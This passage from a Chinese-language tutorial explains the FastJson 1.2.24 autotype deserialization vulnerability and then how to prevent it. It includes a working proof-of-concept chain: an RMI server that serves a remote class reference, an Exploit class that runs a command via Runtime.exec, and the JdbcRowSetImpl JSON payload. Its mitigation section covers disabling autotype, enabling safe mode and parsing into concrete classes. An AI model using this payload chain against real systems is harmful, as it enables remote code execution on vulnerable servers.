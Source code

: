 ## 模拟攻击
现在的版本FastJson做了大量的防御手段包括黑名单，白名单等，为了模拟方便，了解问题，我们这边使用FastJson比较早的版本：**1.2.24**；
在模拟之前我们需要了解一下获取到类信息之后是如何把属性设置到类对象中的，它是通过setXxx()来给类对象设值的；
一个常见的攻击类是：**com.sun.rowset.JdbcRowSetImpl**，此类的dataSourceName支持传入一个rmi的源，然后可以设置autocommit自动连接，执行rmi中的方法；
这里首选需要准备一个RMI类：
```
public class RMIServer {
    public static void main(String argv[]) {
         Registry registry = LocateRegistry.createRegistry(1099);
         Reference reference = new Reference("Exploit", "Exploit", "http://localhost:8080/");
         registry.bind("Exploit", new ReferenceWrapper(reference));
    }
}
```
这里的Reference指定了类名，已经远程地址，可以从远程服务器上加载class文件来实例化；准备好Exploit类，编译成class文件，然后把他放在本地的http服务器中即可；
```
public class Exploit {
    public Exploit() {
         Runtime.getRuntime().exec("calc");
    }
}
```
准备好这些之后，下面就需要模拟Json字符串了：
```
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}
```
fastjson在反序化的时候，先执行setDataSourceName方法，然后setAutoCommit的时候会自动连接设置的dataSourceName属性，最终获取到Exploit类执行其中的相关操作，以上的程序会在本地调起计算器；
注：以上起作用只会在我们使用没有指定具体类情况下：
```
JSON.parseObject(jsonString);
JSON.parse(jsonString);
```
如果指定了具体的类，会直接报类型错误：
```
com.alibaba.fastjson.JSONException: type not match
```

## 如何避免
### 1.不使用autotype
如果你没有使用多态的需求，没必要使用autotype，没必要使用**SerializerFeature.WriteClassName**特性，直接关闭autotype功能；或者开启安全模式；
```
ParserConfig.getGlobalInstance().setAutoTypeSupport(false);
ParserConfig.getGlobalInstance().setSafeMode(true);
```

### 2.指定具体类
在反序列化的时候，我们尽量指定具体类：
```
public static <T> T parseObject(String text, Class<T> clazz)
```
这样在反序列化的时候，其实是会和你指定的类型就行对比的，看是否匹配；
